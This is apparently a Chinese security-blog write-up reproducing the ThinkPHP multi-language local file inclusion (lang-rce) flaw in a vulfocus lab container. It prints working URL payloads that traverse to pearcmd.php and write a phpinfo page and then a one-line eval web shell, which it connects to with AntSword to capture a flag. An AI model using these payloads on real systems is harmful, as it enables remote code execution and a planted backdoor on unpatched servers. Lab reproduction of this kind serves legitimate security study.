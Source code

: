 #  ThinkPHP 多语言本地文件包含漏洞(lang-rce)复现   
原创 炽汐安全屋  炽汐安全屋   2025-03-23 21:06  
  
描述  
  
Think  
PHP是一个再中国使用比较多的PHP框架。在其6.0.13版本及以前，存在一处本地文件包含漏洞。当多语言特性被开启时，攻击者可以使用lang参数来包含任意php文件。  
  
虽然只能包含本地PHP文件，但在开启了register_argc_argv且安装了pcel/pear的环境下，可以包含/usr/local/lib/php/pearcmd.php并写入任意文件。  
  
漏洞原理  
  
当ThinkPHP的多语言功能开启时，如果未对用户输入的语言参数进行严格过滤，攻击者可以利用lang参数进行目录穿越，包含服务器上的任意文件2。在某些环境下，如开启了register_argc_argv且安装了pear扩展，攻击者甚至可以包含/usr/local/lib/php/pearcmd.php文件，从而执行任意代码  
  
漏洞影响范围  
  
该漏洞主要影响以下版本的ThinkPHP：  
  
6.0.1 ≤ ThinkPHP ≤ 6.0.13  
  
ThinkPHP 5.0.x  
  
ThinkPHP 5.1.x  
  
本次复现使用的是vulfocus靶场环境  
```
环境名为：
vulfocus/thinkphp:6.0.12
想复现的小伙伴可以使用docker拉取镜像
docker pull vulfocus/thinkphp:6.0.12
```  
  
开启靶场环境，我们从描述中可以得知访问路径为/public/index.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6QQf7rC779ZcHUSzibrqwyfuIhGic9IUHCYne1EaruUpbbs8nQRkvrbNw0vwic4jaytb9qtxic7NBkKrvfMoXUN3Xg/640?wx_fmt=png "")  
  
进入到靶场环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6QQf7rC779ZcHUSzibrqwyfuIhGic9IUHCAsvC8DYaTSjdTZ6SkLTicUExIiaRAtkdvjRWCzjPmDsfomNRiaiagFDicwA/640?wx_fmt=png "")  
  
可以看到thinkphp版本为6.0.12     存在本地文件包含漏洞  
  
我们本地抓包构造payload  
```
?+config-create+/&lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/var/www/html/shell.php
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6QQf7rC779ZcHUSzibrqwyfuIhGic9IUHCO7BdLhqZ2Njg21MibibeURRnC64cs1pgmAo4qxXRFwcm9e5jFwQicDDIw/640?wx_fmt=png "")  
  
成功后访问shell.php文件 可以看到phpinfo  
  
在其中搜索flag就可以通关了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6QQf7rC779ZcHUSzibrqwyfuIhGic9IUHCVPibuxmPNJXicNJHGQl5N9bApMrhVNSH9iaeeGvkIb9Jia4sdMPRv2VSRg/640?wx_fmt=png "")  
  
使用蚁剑连接：  
  
重新构造payload  
```
?lang=../../../../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/<?=@eval($_REQUEST['chixi']);?>+/var/www/html/shell.php
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6QQf7rC779ZcHUSzibrqwyfuIhGic9IUHCAKyjo76AVq6pibw9zJfM7tHWUmWJ9aLAOibLYr2fCcVgZAgtecQKzMOw/640?wx_fmt=png "")  
  
使用蚁剑连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6QQf7rC779ZcHUSzibrqwyfuIhGic9IUHCtoSCZ18Gb4ibfPAjIKZNdibOE2mc60NHHlylsky8ZJvSagrq6X3FUXVg/640?wx_fmt=png "")  
  
在根目录下的tmp中就可以找到flag了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6QQf7rC779ZcHUSzibrqwyfuIhGic9IUHCa6U4pdxlSmnAYYIact6aMRRY1f2vNxGbXJYzAJZ4WqxLt2vcic97u6w/640?wx_fmt=png "")  
  
至此ThinkPHP 多语言本地文件包含漏洞(lang-rce)复现完成  
  
![](https://mmbiz.qpic.cn/mmbiz_png/6QQf7rC779ZcHUSzibrqwyfuIhGic9IUHCVrSLDE2ea4YHTqia3NXWuPL2XI9NsFxsW1bkyXdpuxvJvwBeZnfJurg/640?wx_fmt=png "")  
  
  
  
  
  
  
  
  
